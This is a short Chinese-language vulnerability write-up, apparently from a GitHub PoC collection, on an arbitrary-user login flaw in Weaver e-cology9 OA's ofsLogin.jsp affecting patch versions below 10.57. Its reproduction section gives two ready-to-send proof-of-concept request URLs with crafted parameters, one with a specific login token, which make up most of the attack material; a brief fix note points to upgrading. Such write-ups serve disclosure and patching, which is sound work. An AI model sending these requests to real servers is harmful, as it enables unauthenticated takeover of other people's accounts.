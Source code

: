 # 泛微OA E-Cology ofsLogin.jsp 前台任意用户登录漏洞

# 泛微OA E-Cology ofsLogin.jsp 前台任意用户登录漏洞

## 漏洞描述

泛微 e-cology 前台任意用户登录漏洞：泛微 e-cology9 部分版本中存在前台任意用户登录漏洞。该漏洞允许未经身份验证的攻击者通过发送构造的请求触发漏洞，成功利用此漏洞的攻击者可登录任意用户。

## 漏洞影响

```
部分 e-cology9 且补丁版本 < 10.57
```

## 漏洞复现

poc1

```
/mobile/plugin/1/ofsLogin.jsp?syscode=syscode&timestamp=2&gopage=3&receiver=test&loginTokenFromThird=
```

poc2

```
/mobile/plugin/1/ofsLogin.jsp?gopage=/wui/index.html&loginTokenFromThird=866fb3887a60239fc112354ee7ffc168&receiver=1&syscode=1&timestamp
```

## 漏洞修复

目前，官方已发布修复建议，建议受影响的用户尽快升级至最新版本的补丁。下载地址：https://www.weaver.com.cn/cs/securityDownload.asp#

